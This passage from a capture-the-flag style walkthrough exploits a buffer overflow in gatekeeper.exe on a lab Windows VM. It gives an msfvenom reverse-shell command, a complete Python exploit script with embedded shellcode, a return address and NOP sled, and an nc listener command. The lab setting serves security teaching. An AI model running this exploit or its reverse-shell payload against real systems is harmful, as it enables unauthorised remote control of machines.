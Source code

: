 Now, we are ready to get a reverse shell aka own our Windows VM machine via BOF. Let's generate our payload, don't forget to change LHOST to your Kali machine IP address:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.105 LPORT=5555 -f rb -a x86 --platform windows -b "\x00\x0A"

-b option allows us to exclude the badchars we have found earlier.
```
![Shellcode](shellcode.png) 

We need to copy and paste this into our getting a shell template:
```Python
#!/usr/bin/python

import socket

shellcode = ("\xba\x29\xc3\x98\x0f\xda\xce\xd9\x74\x24\xf4\x5e\x33\xc9\xb1"
"\x52\x31\x56\x12\x83\xee\xfc\x03\x7f\xcd\x7a\xfa\x83\x39\xf8"
"\x05\x7b\xba\x9d\x8c\x9e\x8b\x9d\xeb\xeb\xbc\x2d\x7f\xb9\x30"
"\xc5\x2d\x29\xc2\xab\xf9\x5e\x63\x01\xdc\x51\x74\x3a\x1c\xf0"
"\xf6\x41\x71\xd2\xc7\x89\x84\x13\x0f\xf7\x65\x41\xd8\x73\xdb"
"\x75\x6d\xc9\xe0\xfe\x3d\xdf\x60\xe3\xf6\xde\x41\xb2\x8d\xb8"
"\x41\x35\x41\xb1\xcb\x2d\x86\xfc\x82\xc6\x7c\x8a\x14\x0e\x4d"
"\x73\xba\x6f\x61\x86\xc2\xa8\x46\x79\xb1\xc0\xb4\x04\xc2\x17"
"\xc6\xd2\x47\x83\x60\x90\xf0\x6f\x90\x75\x66\xe4\x9e\x32\xec"
"\xa2\x82\xc5\x21\xd9\xbf\x4e\xc4\x0d\x36\x14\xe3\x89\x12\xce"
"\x8a\x88\xfe\xa1\xb3\xca\xa0\x1e\x16\x81\x4d\x4a\x2b\xc8\x19"
"\xbf\x06\xf2\xd9\xd7\x11\x81\xeb\x78\x8a\x0d\x40\xf0\x14\xca"
"\xa7\x2b\xe0\x44\x56\xd4\x11\x4d\x9d\x80\x41\xe5\x34\xa9\x09"
"\xf5\xb9\x7c\x9d\xa5\x15\x2f\x5e\x15\xd6\x9f\x36\x7f\xd9\xc0"
"\x27\x80\x33\x69\xcd\x7b\xd4\x56\xba\x83\x4d\x3f\xb9\x83\x98"
"\x0c\x34\x65\xc8\x62\x11\x3e\x65\x1a\x38\xb4\x14\xe3\x96\xb1"
"\x17\x6f\x15\x46\xd9\x98\x50\x54\x8e\x68\x2f\x06\x19\x76\x85"
"\x2e\xc5\xe5\x42\xae\x80\x15\xdd\xf9\xc5\xe8\x14\x6f\xf8\x53"
"\x8f\x8d\x01\x05\xe8\x15\xde\xf6\xf7\x94\x93\x43\xdc\x86\x6d"
"\x4b\x58\xf2\x21\x1a\x36\xac\x87\xf4\xf8\x06\x5e\xaa\x52\xce"
"\x27\x80\x64\x88\x27\xcd\x12\x74\x99\xb8\x62\x8b\x16\x2d\x63"
"\xf4\x4a\xcd\x8c\x2f\xcf\xfd\xc6\x6d\x66\x96\x8e\xe4\x3a\xfb"
"\x30\xd3\x79\x02\xb3\xd1\x01\xf1\xab\x90\x04\xbd\x6b\x49\x75"
"\xae\x19\x6d\x2a\xcf\x0b")

buff = "A"*146 + "\xc3\x14\x04\x08" + "\x90" * 8 + shellcode
RHOST = "192.168.0.227"
RPORT = 31337

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((RHOST,RPORT))
s.send(buff+'\r\n')
s.close()
```
Before running the Python script, let's start a reverse shell in another terminal:
```bash
nc -nlvp 5555
```
![nc ReverseShell](ncReverseShell.png)

Now, let's run our python script:
```python ./shellcode.py
```
When we check our nc listener, we can see that we have a reverse shell now!...

![Revershell](reverseshell.png)

Woohoo, we are connected to this machine by exploiting BOF vulnerability that gatekeeper.exe has so let's try our final script on THM platform now.

[<= Go Back to BOF Menu](bufferoverflows.md)

[<= Go Back to Main Menu](index.md)

